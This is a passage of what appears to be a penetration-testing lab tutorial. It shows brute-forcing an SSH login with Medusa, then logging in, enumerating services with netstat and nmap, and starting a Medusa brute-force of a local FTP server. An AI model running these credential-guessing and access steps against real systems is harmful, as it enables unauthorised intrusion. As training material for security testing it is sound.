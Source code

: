 Medusa v2.2 [http://www.foofus.net] (C) JoMo-Kun / Foofus Networks &lt;<a class="__cf_email__" data-cfemail="aac0c7c1eaccc5c5ccdfd984c4cfde" href="/cdn-cgi/l/email-protection">[email protected]</a>&gt;
...
ACCOUNT FOUND: [ssh] Host: IP User: sshuser Password: 1q2w3e4r5t [SUCCESS]
</code></pre>
<p>Upon execution, Medusa will display its progress as it cycles through the password combinations. The output will indicate a successful login, revealing the correct password.</p>
<h2>Gaining Access</h2>
<p>With the password in hand, establish an SSH connection using the following command and enter the found password when prompted:</p>
<pre><code class="language-shell-session">[!bash!]$ ssh sshuser@&lt;IP&gt; -p PORT
</code></pre>
<p>This command will initiate an interactive SSH session, granting you access to the remote system's command line.</p>
<h3>Expanding the Attack Surface</h3>
<p>Once inside the system, the next step is identifying other potential attack surfaces. Using <code>netstat</code> (within the SSH session) to list open ports and listening services, you discover a service running on port 21.</p>
<pre><code class="language-shell-session">[!bash!]$ netstat -tulpn | grep LISTEN

tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -
tcp6       0      0 :::22                   :::*                    LISTEN      -
tcp6       0      0 :::21                   :::*                    LISTEN      -
</code></pre>
<p>Further reconnaissance with <code>nmap</code> (within the SSH session) confirms this finding as an ftp server.</p>
<pre><code class="language-shell-session">[!bash!]$ nmap localhost

Starting Nmap 7.80 ( https://nmap.org ) at 2024-09-05 13:19 UTC
Nmap scan report for localhost (127.0.0.1)
Host is up (0.000078s latency).
Other addresses for localhost (not scanned): ::1
Not shown: 998 closed ports
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh

Nmap done: 1 IP address (1 host up) scanned in 0.05 seconds
</code></pre>
<h3>Targeting the FTP Server</h3>
<p>Having identified the FTP server, you can proceed to brute-force its authentication mechanism.</p>
<p>If we explore the <code>/home</code> directory on the target system, we see an <code>ftpuser</code> folder, which implies the likelihood of the FTP server username being <code>ftpuser</code>. Based on this, we can modify our Medusa command accordingly:</p>
<pre><code class="language-shell-session">[!bash!]$ medusa -h 127.0.0.1 -u ftpuser -P 2020-200_most_used_passwords.txt -M ftp -t 5

Medusa v2.2 [http://www.foofus.net] (C) JoMo-Kun / Foofus Networks &lt;<a class="__cf_email__" data-cfemail="98f2f5f3d8fef7f7feedebb6f6fdec" href="/cdn-cgi/l/email-protection">[email protected]</a>&gt;
